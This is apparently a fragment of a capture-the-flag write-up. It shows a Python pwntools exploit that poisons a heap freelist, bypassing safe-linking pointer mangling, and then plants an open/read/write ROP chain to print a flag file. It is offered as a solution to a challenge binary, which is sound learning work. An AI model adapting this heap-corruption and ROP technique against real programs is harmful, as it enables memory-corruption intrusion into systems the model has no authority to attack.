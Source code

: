 ```python
free(7)
payload = b'a'*0x108 + p64(0x111) + p64(saved_rbp_fgets ^ (heap_base+0x2b90>>12))
malloc(3,0x130,payload)
malloc(4,0x100,b'nothing')

rop_chain = b'./flag.txt\x00'
rop_chain = rop_chain.ljust(40,b'a')
# open(./flag.txt,0,0)
rop_chain += p64(pop_rdi) + p64(saved_rbp_fgets)
rop_chain += p64(pop_rsi) + p64(0) + p64(pop_rdx_rbx) + p64(0)*2
rop_chain += p64(pop_rax) + p64(2) + p64(syscall)
# read(3,buf,size)
rop_chain += p64(pop_rdi) + p64(3) + p64(pop_rax) + p64(0)
rop_chain += p64(pop_rsi) + p64(saved_rbp_fgets) + p64(pop_rdx_rbx) + p64(0x100) + p64(0) + p64(syscall)
# write(1,buf,size)
rop_chain += p64(pop_rdi) + p64(1) + p64(pop_rax) + p64(1) + p64(syscall)
input()
malloc(5,0x100,rop_chain)

p.interactive()
```

![here](/assets/images/flag20.png)
